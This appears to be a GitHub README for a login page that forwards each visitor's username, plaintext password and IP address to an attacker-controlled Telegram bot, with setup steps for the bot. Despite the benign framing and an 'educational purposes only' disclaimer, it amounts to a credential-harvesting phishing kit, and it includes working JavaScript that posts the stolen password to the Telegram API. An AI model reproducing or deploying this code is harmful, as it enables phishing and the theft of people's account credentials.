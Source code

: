 🔐 Login Page with Telegram Bot Integration

This project is a login page that sends user information to a Telegram bot after successful authentication.

✨ Features

✅ Simple and responsive login form
✅ Sends user information (like username and IP address) to a Telegram bot
✅ Uses fetch API for secure data transmission

🛠️ Technologies Used

🚀 HTML, CSS, JavaScript
🔗 fetch API for sending data
🤖 Telegram Bot API

⚙️ How It Works

1️⃣ The user enters their login details and submits the form.
2️⃣ The script sends the login data to the Telegram bot using the bot API.
3️⃣ The Telegram bot receives and forwards the user information to a specified chat.

📌 Setup

1️⃣ Create a Telegram Bot

Go to 🤖 BotFather on Telegram.

Create a new bot and get the Bot Token.

Get your Chat ID (Use ℹ️ @userinfobot to find it).


2️⃣ Configure Your Project

Open the JavaScript file and replace BOT_TOKEN and CHAT_ID with your actual values:


const botToken = "YOUR_BOT_TOKEN";  
const chatId = "YOUR_CHAT_ID";  

const sendToTelegram = (username, password, ip) => {  
    const message = `🔐 New Login:\n👤 Username: ${username}\n🔑 Password: ${password}\n🌐 IP: ${ip}`;  
    fetch(`https://api.telegram.org/bot${botToken}/sendMessage`, {  
        method: "POST",  
        headers: { "Content-Type": "application/json" },  
        body: JSON.stringify({ chat_id: chatId, text: message })  
    });  
};

3️⃣ Run the Project

▶️ Open index.html in a browser.
▶️ Enter login details and check your Telegram bot for updates.

⚠️ Disclaimer

🚨 This project is for educational purposes only. Do not use it for unauthorized activities.

